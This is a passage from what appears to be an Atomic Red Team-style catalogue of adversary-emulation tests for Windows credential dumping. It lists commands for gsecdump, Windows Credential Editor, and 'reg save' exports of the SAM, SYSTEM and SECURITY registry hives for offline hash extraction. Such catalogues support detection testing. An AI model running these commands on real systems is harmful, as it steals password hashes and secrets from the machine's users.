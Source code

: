 ## Atomic Test #2 - Gsecdump
https://www.truesec.se/sakerhet/verktyg/saakerhet/gsecdump_v2.0b5

**Supported Platforms:** windows


#### Run it with `command_prompt`!
```
gsecdump -a
```
<br/>
<br/>

## Atomic Test #3 - Windows Credential Editor
http://www.ampliasecurity.com/research/windows-credentials-editor/

**Supported Platforms:** windows


#### Run it with `command_prompt`!
```
wce -o #{output_file}
```
<br/>
<br/>

## Atomic Test #4 - Registry dump of SAM, creds, and secrets
Local SAM (SAM & System), cached credentials (System & Security) and LSA secrets (System & Security) can be enumerated 
via three registry keys. Then processed locally using https://github.com/Neohapsis/creddump7

**Supported Platforms:** windows


#### Run it with `command_prompt`!
```
reg save HKLM\sam sam 
reg save HKLM\system system
reg save HKLM\security security
```
<br/>
